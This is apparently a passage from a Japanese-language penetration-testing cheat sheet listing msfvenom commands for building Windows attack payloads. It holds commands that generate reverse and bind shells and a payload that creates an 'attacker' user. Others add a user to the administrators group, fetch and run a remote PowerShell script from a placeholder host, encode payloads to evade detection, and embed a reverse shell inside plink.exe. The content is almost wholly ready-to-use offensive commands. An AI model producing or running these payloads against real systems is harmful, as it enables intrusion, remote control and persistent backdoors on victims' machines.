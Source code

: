 {% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
{% endcode %}

### バインドシェル

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
{% endcode %}

### ユーザーの作成

{% code overflow="wrap" %}
```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
{% endcode %}

### CMDシェル

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
### **コマンドを実行する** 

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
### エンコーダー

{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
{% endcode %}

### 実行可能ファイル内に埋め込まれている

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```
{% endcode %}
